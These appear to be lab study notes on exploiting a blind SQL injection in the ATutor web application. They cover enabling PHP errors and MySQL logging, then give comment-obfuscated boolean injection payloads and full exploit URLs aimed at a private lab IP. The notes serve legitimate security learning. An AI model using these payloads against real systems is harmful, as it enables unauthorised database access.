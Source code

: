### Turn on Errors in PHP

> sudo nano /etc/php5/apache2/php.ini 
> Search (ctrl+w) for "display_errors = " and change Off to On
> sudo systemctl restart apache2

### Turn on logging in MySQL

> sudo nano /etc/mysql/my.cnf 
> Search (ctrl+w) for "general_log_file", enable this and general_log
> sudo systemctl restart mysql

Monitor MySQL Queries:
> tail -f /var/log/mysql/mysql.log

### Grep search: 
> grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" --color

### Information Gathering

> echo "<?php var_dump(get_magic_quotes_gpc()); ?>" > info.php
> echo "<?php echo 'PHP Version: ' . phpversion().\"\r\n\"; ?>" >> info.php

### SQL inline comments to replace spaces

> mysql> select/**/1;

### SQL Blind Injection Payloads

%23 is # sign, interpreted by MySQL as a comment, terminating the rest of the query

True:
> AAAA')/**/or/**/(select/**/1)=1%23

> select count(*) FROM AT_members M WHERE (first_name LIKE '%AAAA')/**/OR/**/ (select/**/1)=1#

False:
> AAAA')/**/or/**/(select/**/1)=0%23

> select count(*) FROM AT_members M WHERE (first_name LIKE '%AAAA')/**/OR/**/ (select/**/1)=0#

### Boolean based MySQL queries for use in blind injections

Establish the verison:

Is the version 4.xxxxx?
> select/**/(substring((select/**/version()),1,1))=4;

Or 5.xxxx?
> select/**/(substring((select/**/version()),1,1))=5;

NOTE: it is good practice to convert to ASCII to avoid issues with the payload (ASCII: 52=4, 53=5)

> select/**/ascii(substring((select/**/version()),1,1))=52;

> select/**/ascii(substring((select/**/version()),1,1))=53;

Within a browser or direct to the Atutor application:

False
>http://192.168.216.103/ATutor/mods/_standard/social/index_public.php?q=test%27)/**/or/**/(select/**/ascii(substring((select/**/version()),1,1)))=52%23

True
> http://192.168.216.103/ATutor/mods/_standard/social/index_public.php?q=test%27)/**/or/**/(select/**/ascii(substring((select/**/version()),1,1)))=53%23
